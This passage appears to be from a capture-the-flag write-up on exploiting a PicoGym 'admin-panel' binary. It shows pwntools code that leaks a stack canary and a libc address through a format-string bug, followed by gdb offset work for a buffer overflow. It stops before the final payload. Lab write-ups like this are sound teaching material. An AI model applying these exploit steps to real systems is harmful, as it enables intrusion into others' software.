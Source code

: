 So far we have:
```python
p = process("./admin-panel_patched")
p.recvline()
p.recvline()
p.sendline(b"admin")
p.recvline()
p.sendline(b'secretpass123aaaaaaaaaaaaaaaaaaa%15$p,%17$p')
p.recvline()
```
That should print out the stack cookie and the libc address. Let's get these values and print them out on the solution:
```python
leak_addr = p.recvline().decode()[:-1].split(',')
stack_cookie = int(leak_addr[0], 16)
libc_leak = int(leak_addr[1], 16)
print(f"stack cookie is: {hex(stack_cookie)}")
print(f"leaked address is: {hex(libc_leak)}")
```

Nice! The stack cookie and leaked address are saved. The program is now inside the `admin()` function. Let's try exploring the buffer overflow by choosing choice 2. There is a 129 byte writing into the 64 bytes size `report` variable. If we make a test, it is possible to verify that we indeed can overwrite the return address (and consequently the stack cookie ;;)

![stack_smashing](/assets/img/picogym-pwn-easy/admin-panel/admin-panel4.png)

Let's open it on gdb and insert a breakpoint before the stack cookie check (`__stack_chk_fail@plt`). I am putting the breakpoint at the `mov rdx, QWORD PTR [rbp-0x8]` instruction. Let's also use the command `pattern create` to generate a pattern for our input and see where things go wrong.

This is what I can see inside the `rdx` register: \
`$rdx   : 0x616161616161616a ("jaaaaaaa"?)` \
(we could also just check the value of `rbp-0x8` by doing the command `x/gx $rbp-0x8`) \
Checking the offset position:
```
gef➤  pattern offset 0x616161616161616a
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```
That means we need to use the `'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaa'` part of the pattern to reach the stack cookie. After that we write the stack cookie that was retrieved using the format string vulnerability and write anything into the `rbp`, it doesn't matter. After all of that we can finally write into the return address without problems.
